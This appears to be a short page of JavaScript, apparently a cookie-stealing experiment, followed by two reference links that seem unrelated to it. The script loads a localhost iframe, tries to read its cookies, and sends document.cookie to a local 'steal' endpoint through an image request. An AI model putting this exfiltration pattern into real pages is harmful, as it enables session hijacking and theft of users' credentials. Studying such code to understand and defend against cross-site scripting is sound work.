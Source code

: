 ```
    document.cookie = 'main=cookie'
    const iframe = document.createElement('iframe')
    iframe.src = 'http://localhost:8002/'
    document.body.appendChild(iframe)
    document.write(iframe.contentDocument.cookie)
    console.log(iframe.contentDocument.cookie)

    setTimeout(function() {
        const p = document.createElement('p')
        p.innerHTML = document.cookie   /*iframe.contentDocument.cookie */
        document.body.appendChild(p)
        new Image().src = 'http://localhost:5002/steal?cookie=' + document.cookie  /*iframe.contentDocument.cookie*/
}, 5000);
</script>

```



## References


https://syntaxfix.com/question/12368/http-status-code-0-error-domain-nsurlerrordomain

https://www.convertcsv.com/csv-to-markdown.htm

